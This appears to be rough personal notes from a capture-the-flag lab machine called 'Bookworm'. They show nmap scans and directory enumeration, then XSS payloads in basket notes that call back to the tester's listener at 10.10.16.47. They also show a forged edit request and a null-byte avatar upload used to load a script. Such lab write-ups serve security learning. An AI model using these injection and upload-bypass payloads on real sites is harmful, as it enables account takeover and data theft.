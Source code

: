 Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 23:44 EDT
Nmap scan report for 10.10.11.215
Host is up (0.81s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 64.09 seconds


nmap -p22,80 -sCV 10.10.11.215 -oN targeted 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 23:49 EDT
Nmap scan report for 10.10.11.215
Host is up (0.36s latency).                                                                                          
                                                                                                                     
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 811d2235dd2115644a1fdc5c9c66e5e2 (RSA)
|   256 01f90d3c221d948306a4967a011c9ea1 (ECDSA)
|_  256 647d17179179f6d7c48774f8a216f7cf (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://bookworm.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.33 seconds

Looking at the site we go to login page

![](20230717235251.png)

after /register

we look at a shop

aaa just added Through the Looking-Glass to their basket!

just now
Sally Smith just added The Hunting of the Snark: An Agony in Eight Fits to their basket!

just now

so Sally Smith is a user

/login                (Status: 200) [Size: 2040]
/register             (Status: 200) [Size: 3093]
/profile              (Status: 302) [Size: 28] [--> /login]
/shop                 (Status: 200) [Size: 11153]
/static               (Status: 301) [Size: 179] [--> /static/]
/Login                (Status: 200) [Size: 2034]
/logout               (Status: 302) [Size: 23] [--> /]
/basket               (Status: 302) [Size: 28] [--> /login]
/Register             (Status: 200) [Size: 3093]
/Profile              (Status: 302) [Size: 28] [--> /login]
/Shop                 (Status: 200) [Size: 11556]

we reach the /basket page

tried xss nothign happened

always try xss with a <image src="http://10.10.16.47:8000">

this worked
```
found
10.10.16.47 - - [18/Jul/2023 01:24:06] "GET /new HTTP/1.1" 404 -
```

when we look at ht ebooks added by the bots

![](20230718013703.png)

<div class="row mb-2">
            <!-- 2377 --> // does this indicate the basket number?
            <div class="col-3"><img class="img-fluid" src="/static/img/uploads/1"></div>
            <div class="col-9"><strong>Joe Bubbler</strong> just added <a href="/shop/6">The Pirate Woman</a> to their basket!<p class="mb-0 text-muted">1 minute ago</p></div>            
</div>

trying to forge an edit request for this

```
POST /basket/2377/edit HTTP/1.1
Host: bookworm.htb
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://bookworm.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bookworm.htb/basket
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJmbGFzaE1lc3NhZ2UiOnt9LCJ1c2VyIjp7ImlkIjoxNCwibmFtZSI6ImFhYSIsImF2YXRhciI6Ii9zdGF0aWMvaW1nL3VzZXIucG5nIn19; session.sig=kmagEFwIlOkM7KMvDRk57wvzgqI
Connection: close

quantity=1&note=<img+src%3d"http%3a//10.10.16.47%3a8000/new">
```

![](20230718030327.png)

updating the avatar image successfull

had to add %00 in front og th epng

then we do xss calling the uploaded image

![](20230718031316.png)

note updated:
```
<script src="/static/img/uploads/14"></script>
<img src="http://10.10.16.47:8000/yolo">
```

and we got th e post request at

![](20230718032815.png)




